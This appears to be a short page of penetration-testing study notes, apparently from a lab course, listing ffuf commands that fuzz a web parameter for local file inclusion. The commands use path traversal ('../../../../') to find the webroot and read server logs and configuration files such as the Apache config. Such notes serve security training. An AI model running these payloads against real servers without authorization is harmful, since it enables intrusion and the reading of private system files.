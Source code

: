 ```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

## **LFI wordlists with ffuf**

```
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

## **Fuzzing Server Files**

### **Server Webroot**

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

### **Server Logs/Configurations**

```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

LFI-WordList is not part of SecLists

**CHECK THIS PATH (apache configuration)**

`/etc/apache2/apache2.conf`)
